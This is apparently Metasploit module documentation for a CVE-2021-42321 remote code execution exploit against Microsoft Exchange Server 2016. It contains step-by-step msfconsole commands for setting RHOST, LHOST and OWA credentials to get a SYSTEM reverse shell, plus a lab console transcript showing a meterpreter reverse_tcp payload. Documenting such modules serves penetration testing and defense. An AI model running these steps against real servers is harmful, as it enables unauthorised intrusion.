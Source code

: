1. Follow [Setup](#setup) to set up a vulnerable target.
2. `msfconsole`
3. `set RHOST <target IP address>`
4. `set LHOST <IP for target to connect back to>`
5. `set HttpUsername <username of OWA user to log in as>`
6. `set HttpPassword <password for this OWA user>`
7. Optional: `set DOMAIN <domain of OWA user>`
8. Optional: `set VHOST <vhost of target>`
9. `exploit`
10. You should get a shell on the target as `NT AUTHORITY\SYSTEM` if it is vulnerable.

## Targets

### 0

Windows Command

### 1

Windows Dropper

### 2

PowerShell Stager

## Options

### HttpUsername

Set this to the OWA username. This can also be set to a valid domain username that has permissions to log into Exchange.

### HttpPassword

Set this to the OWA password. This can also be set to the password for a domain user that has permissions to log into Exchange.

## Scenarios

### Exchange Server 2016 CU22 (Build 15.1.2375.7) on Windows Server 2016 x64 (CVE-2021-42321)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b